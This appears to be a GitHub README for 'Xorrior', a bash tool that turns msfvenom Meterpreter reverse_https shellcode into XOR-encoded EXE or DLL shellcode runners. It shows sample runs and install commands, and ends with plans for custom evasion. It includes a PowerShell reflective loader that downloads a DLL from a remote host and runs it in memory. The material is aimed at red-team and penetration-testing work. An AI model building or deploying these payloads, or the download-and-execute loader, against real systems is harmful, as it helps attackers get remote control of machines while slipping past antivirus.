 # Xorrior

<img width="744" height="248" alt="image" src="https://github.com/user-attachments/assets/ee2c2cb2-c855-42aa-882c-b22931e65db2" />

Automating the Conversion of XOR-Encoded Shellcode into Ready-to-Use EXE or DLL

This tool was written in bash to avoid the routine of:

1. Creating shellcode with msfvenom
2. Copying that shellcode into an XOR encoder
3. Copying the output out of the XOR encoder into a C# shellcode runner.

The tool does all of the above in a single bash script and produces file outputs in
 
 * Executable (EXE)
 
 * Dynamic Link Library (DLL)

Note: The tool requires that x86_64-w64-mingw32-g++ and the mono c# compiler is installed.
```r
sudo apt update

sudo apt install g++-mingw-w64-x86-64

sudo apt install mono-mcs
```


#### Example Usage: Generating an EXE
>`./xorrior.sh`

```PowerShell

Enter msfvenom payload [windows/x64/meterpreter/reverse_https]: 
Enter LHOST [tun0]: 
Enter LPORT [443]: 
Enter XOR key (decimal or 0x.. hex) [0x12]: 
Output file name [runner]: 
Output file type: exe or library (dll)? [exe]: 
[*] Generating shellcode payload...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 754 bytes
Final size of csharp file: 3863 bytes
[*] Building EXE shellcode runner...
[*] Compiling with mcs...

[+] Success! Generated runner.exe

```


#### Example Usage: Generating a DLL
>`./xorrior.sh`

```PowerShell

Enter msfvenom payload [windows/x64/meterpreter/reverse_https]: 
Enter LHOST [tun0]: 
Enter LPORT [443]: 
Enter XOR key (decimal or 0x.. hex) [0x12]: 
Output file name [runner]:  
Output file type: exe or library (dll)? [exe]: library
[*] Generating shellcode payload...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 806 bytes
Final size of csharp file: 4127 bytes
[*] Building DLL shellcode loader...
[*] Compiling with mcs...
runner_gen.cs(29,17): warning CS0472: The result of comparing value type `System.IntPtr' with null is always `false'
runner_gen.cs(29,30): warning CS0162: Unreachable code detected
Compilation succeeded - 2 warning(s)

[+] Success! Generated runner.dll
[*] DLL Info: Namespace = ReflectiveLoadDll, Class = Class1, Method = runner

```

Sample reflective loader to use with dll
```PowerShell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/runner.dll') 
$assem = [System.Reflection.Assembly]::Load($data) 
$class = $assem.GetType("ReflectiveLoadDll.Class1") 
$method = $class.GetMethod("runner") 
$method.Invoke(0, $null)
```

####  To-Dos
 
 * Build Modularity into the tool to :
     *  accept different encryption and encoding types
     *  accept different C, C# templates for flexibility e.g. including custom evasion etc.
 
 

